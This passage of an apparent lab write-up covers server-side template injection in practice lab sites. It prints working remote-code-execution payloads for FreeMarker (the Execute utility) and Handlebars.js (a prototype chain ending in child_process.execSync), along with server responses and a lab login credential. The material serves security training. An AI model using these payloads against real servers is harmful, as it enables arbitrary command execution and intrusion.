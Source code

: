 You can log in to your own account using the following credentials:
`content-manager:C0nt3ntM4n4g3r`

We can directly test for ssti in template box

With the payload `${id}`, the template return 
```
FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> id [in template "freemarker" at line 1, column 3] 
...
```
`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }` return **uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)**

Since we've successfully triggered Remote Code Execution (RCE) using FreeMarker's utility functions, we can now proceed to use it to delete the morale.txt file from Carlos's home directory.

## Look for known exploits

Another key aspect of exploiting server-side template injection vulnerabilities is being good at finding additional resources online. Once you are able to identify the template engine being used, you should browse the web for any vulnerabilities that others may have already discovered. Due to the widespread use of some of the major template engines, it is sometimes possible to find well-documented exploits that you might be able to tweak to exploit your own target website. 

### Lab: Server-side template injection in an unknown language with a documented exploit
To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

`/?message={{7*7}}` return 
```
/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267 throw new Error(str); ^ Error: Parse error on line 1: {{7*7}} --^ Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID' at Parser.parseError (/opt/node-v19.8.1-linux-
...
```
The error indicates that the server is using `Handlebars.js` as the templating engine. In Handlebars, {{ and }} delimiters are used for expressions, but it does not support raw JavaScript-like operations such as 7*7. 

A payload for RCE : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md?utm_source=chatgpt.com

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```